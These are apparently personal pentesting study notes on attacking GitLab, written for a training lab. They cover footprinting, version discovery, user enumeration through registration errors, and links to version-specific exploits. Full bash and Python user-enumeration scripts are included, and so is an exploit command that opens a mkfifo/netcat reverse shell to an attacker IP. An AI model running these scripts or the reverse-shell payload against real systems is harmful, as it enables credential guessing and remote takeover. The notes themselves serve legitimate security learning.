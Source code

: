 ```yaml
---
title: Pentesting Gitlab
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - web
  - pentesting
  - techniques
  - ptrg
---
```

# Pentesting Gitlab

[GitLab](https://about.gitlab.com/) is a web-based Git-repository hosting tool that provides wiki capabilities, issue tracking, and continuous integration and deployment pipeline functionality. It is open-source.

[GitLab](https://about.gitlab.com/) is a web-based Git-repository hosting tool that provides wiki capabilities, issue tracking, and continuous integration and deployment pipeline functionality. It is open-source.

Applications such as GitLab allow for public repositories (that require no authentication), internal repositories (available to authenticated users), and private repositories (restricted to specific users).

If we can obtain user credentials from our OSINT, we may be able to log in to a GitLab instance. Two-factor authentication is disabled by default.

## Footprinting & Discovery

We can quickly determine that GitLab is in use in an environment by just browsing to the GitLab URL, and we will be directed to the login page, which displays the GitLab logo.

The only way to footprint the GitLab version number in use is by browsing to the `/help` page when logged in.


## Version

If the GitLab instance allows us to register an account, we can log in and browse to this page to confirm the version.

If we cannot register an account, we may have to try a low-risk exploit such as [this](https://www.exploit-db.com/exploits/49821) to find the version.

## Enumeration

The first thing we should try is browsing to `/explore` and see if there are any public projects that may contain something interesting.


### User enumeration

**Lockout**: **GitLab's defaults are set to 10 failed attempts resulting in an automatic unlock after 10 minutes.**

We can also use the registration form to enumerate valid users. If we try to register with an email that has already been taken, we will get the error `1 error prohibited this user from being saved: Email has already been taken`.

If we can make a list of valid users, we could attempt to guess weak passwords or possibly re-use credentials. 

Bash script to enumerate users: https://www.exploit-db.com/exploits/49821

```bash
#!/bin/bash

# Colors
RED='\033[38;5;196m'
GREEN='\e[38;5;47m'
NC='\033[0m'
BOLD='\e[1m'
PINK='\e[38;5;198m'
Italic='\e[3m'
BBlue='\e[44m'
YELLOW='\033[0;33m'

clear
echo -e "~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~"
echo -e "  			             ${BBlue}${BOLD}GitLab User Enumeration Script${NC}"
echo -e "   	    			             ${BOLD}Version 1.0${NC}\n"
echo -e "${BOLD}${PINK}Description: ${NC}It prints out the usernames that exist in your victim's GitLab CE instance\n"
echo -e "${BOLD}${PINK}Disclaimer: ${NC}${Italic}Do not run this script against ${BOLD}GitLab.com!${NC}${Italic} Also keep in mind that this PoC is meant only"
echo -e "for educational purposes and ethical use. Running it against systems that you do not own or have the"
echo -e "right permission is totally on your own risk.\n${NC}"
echo -e "${BOLD}${PINK}Author:${NC}${BOLD} @4DoniiS${NC}${Italic} [https://github.com/4D0niiS]${NC}"
echo -e "~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~"
echo ""

# Usage
usage() {
  echo -e "${YELLOW}Usage: ./gitlab_user_enum.sh --url <URL> --userlist <Username Wordlist>${NC}\n"
  echo -e "${Italic}PARAMETERS:${NC}"
  echo -e "-------------"
  echo -e "-u/--url	The URL of your victim's GitLab instance"
  echo -e "--userlist	Path to a username wordlist file (one per line)"
  echo -e "-h/--help	Show this help message and exit"
  echo -e "\n"
  echo -e "${Italic}Example:${NC}"
  echo -e "-------------"
  echo -e "./gitlab_user_enum.sh --url http://gitlab.local/ --userlist /home/user/usernames.txt"
}

# Check for params
URL=""
user_list=""

while [[ $# -gt 0 ]]; do
  case "$1" in
    --url|-u)
      URL="$2"
      shift 2
      ;;
    --userlist)
      user_list="$2"
      shift 2
      ;;
    -h|--help|"")
      usage
      exit 0
      ;;
    *)
      echo -e "${RED}Invalid argument: $1${NC}"
      usage
      exit 1
      ;;
  esac
done

# Check mandatory parameter (URL)
if [[ -z "$URL" ]]; then
  usage
  echo -e "${RED}${BOLD}The URL of your GitLab target (--url) is missing.${NC}"
  exit 1
fi

# Check if userlist file exists
if [[ ! -f "$user_list" ]]; then
  echo -e "${RED}${BOLD}Error: The specified userlist file does not exist!${NC}"
  exit 1
fi

# User Enumeration Function
enumeration() {
  while IFS= read -r line; do
    echo "Checking user: $line"
    
    HTTP_Code=$(curl -s -o /dev/null -w "%{http_code}" "$URL/$line")
    
    if [[ "$HTTP_Code" -eq 200 ]]; then
      echo -e "${GREEN}${BOLD}[+]${NC} The username ${GREEN}${BOLD}$line${NC} exists!"
    elif [[ "$HTTP_Code" -eq 000 ]]; then
      echo -e "${BOLD}${RED}[!]${NC} The target is unreachable. Please make sure that you entered the target's URL correctly and you have connection with it!"
      exit 1
    fi
  done < "$user_list"
}

# Main Execution
enumeration
```


Python3 script to enumerate users: https://github.com/dpgg101/GitLabUserEnum/blob/main/gitlab_userenum.py

```python
#!/usr/bin/env python3
import requests
import argparse

def main():
    parser = argparse.ArgumentParser(description='GitLab User Enumeration')
    parser.add_argument('--url', '-u', type=str, required=True, help='The URL of the GitLab\'s instance')
    parser.add_argument('--wordlist', '-w', type=str, required=True, help='Path to the username wordlist')
    parser.add_argument('-v', action='store_true', help='Enable verbose mode')
    args = parser.parse_args()

    print('GitLab User Enumeration in python')

    with open(args.wordlist, 'r') as f:
        for line in f:
            username = line.strip()
            if args.v:
                print(f'Trying username {line[:-1]}...')
            http_code = requests.head(f'{args.url}/{username}').status_code
            if http_code == 200:
                print(f'[+] The username {username} exists!')
            elif http_code == 0:
                print('[!] The target is unreachable.')
                break

if __name__ == '__main__':
    main()
```

##  Exploits

There's not much we can do against GitLab without knowing the version number or being logged in.

- GitLab [12.9.0](https://www.exploit-db.com/exploits/48431)
- GitLab [11.4.7](https://www.exploit-db.com/exploits/49257)
- Gitlab  [13.10.3](https://www.exploit-db.com/exploits/49821)
- Gitlab  [13.9.3](https://www.exploit-db.com/exploits/49944)
- Gitlab [13.10.2](https://www.exploit-db.com/exploits/49951): exploit 49951.py. It achieves Authenticated Remote Code Execution

```
python3.11 49951.py -u lala -p lalala123 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.147 1234 >/tmp/f'   -t http://gitlab.inlanefreight.local:8081
```

